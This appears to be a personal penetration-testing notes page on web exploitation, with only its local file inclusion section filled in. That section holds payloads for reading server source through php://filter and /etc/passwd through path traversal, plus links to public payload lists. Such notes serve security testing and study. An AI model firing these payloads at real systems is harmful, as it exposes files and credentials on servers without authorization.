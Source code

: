 # Exploitation
Tools and options I use for reconnaissance:
- [Web](#web)
  - [LFI](#lfi)
  - [XSS](#xss)
  - [SQL Injection](#sql-injection)

----

## Web
Techniques and tools I use for web exploitations.

### LFI (Local File Inclusion)

Example scenario:   
```bash
http://<target>/index.php?parameter=value
```

Validate LFI:   
```bash
http://<target>/index.php?parameter=php://filter/convert.base64-encode/resource=index
# OR
http://<target>/index.php?page=../../../../../../../../etc/passwd
```

Useful links:   
- [Payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion/Intruders)
- [Seclist LFI intruder](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)
